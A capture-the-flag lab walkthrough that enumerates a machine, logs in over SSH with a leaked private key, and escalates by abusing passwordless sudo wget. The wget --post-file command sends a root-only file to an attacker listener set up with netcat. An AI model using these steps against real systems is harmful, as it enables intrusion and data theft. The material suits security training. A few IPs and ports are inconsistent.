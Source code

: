 

IP= 10.10.124.163

### Enumeration

```
$ nmap -p- -T5 10.10.124.163
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-01 19:53 EST
Warning: 10.10.124.163 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.124.163
Host is up (0.17s latency).
Not shown: 65120 closed tcp ports (conn-refused), 413 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 876.28 seconds
```

```
$ dirb http://10.10.124.163/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Jan  1 20:58:41 2023
URL_BASE: http://10.10.124.163/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.124.163/ ----
+ http://10.10.124.163/index.html (CODE:200|SIZE:11374)                                                              
+ http://10.10.124.163/server-status (CODE:403|SIZE:278)                                                             
==> DIRECTORY: http://10.10.124.163/sitemap/ 

Entering directory: http://10.10.124.163/sitemap/ ----
==> DIRECTORY: http://10.10.124.163/sitemap/.ssh/

```
- Site contains developement team information (potential users for ssh login)
- RSA ID found in /.ssh directory discovered with dirb

```
$ chmod 600 id_rsa
```

```
$ searchsploit OpenSSH
...
OpenSSH 7.2p2 - Username Enumeration
```

- Attempted to enumerate a list of usernames via Metasploit module and custom wordlist of discovered devs, but produced a bunch of false positives, so it is back to enumeration.

- Discovered JS comment in source page of default apache page that could be used as a username:

<!-- Jessie don't forget to udate the webiste -->

--------------------------------------------------

```bash
$ ssh -i id_rsa  jessie@10.10.239.158

Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


8 packages can be updated.
8 updates are security updates.

jessie@CorpOne:~$ ls
Desktop  Documents  Downloads  examples.desktop  Music  Pictures  Public  Templates  Videos
...
jessie@CorpOne:~$ cd Documents
jessie@CorpOne:~/Documents$ ls
user_flag.txt
jessie@CorpOne:~/Documents$ cat user_flag.txt
[REDACTED]
```

### Privilege Escalation

- User has unrestricted access as far as sudo permissions go, but
we can see that the user has perms to use wget as root without a password. 

"wget is a utility for non-interactive download of files from the Web. It supports HTTP, HTTPS, and FTP protocols, as well as retrieval through HTTP proxies."

```
jessie@CorpOne:~$ cd /
jessie@CorpOne:/$ ls
bin  boot  cdrom  dev  etc  home  initrd.img  initrd.img.old  lib  lost+found  media  mnt  opt  proc  root  run  sbin  snap  srv  sys  tmp  usr  var  vmlinuz
jessie@CorpOne:/$ cd root
-bash: cd: root: Permission denied
jessie@CorpOne:/$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

```
Victim Machine:

jessie@CorpOne:/$ sudo wget --post-file=root/root_flag.txt 10.2.1.180:4444
--2023-01-04 05:57:38--  http://10.2.1.180:4444/
Connecting to 10.2.1.180:4444... connected.
HTTP request sent, awaiting response... 

Local Machine:

$ nc -lvnp 444

listening on [any] 4444 ...
connect to [10.2.1.180] from (UNKNOWN) [10.10.239.158] 36248
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.2.1.180:4444
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

[REDACTED]
```
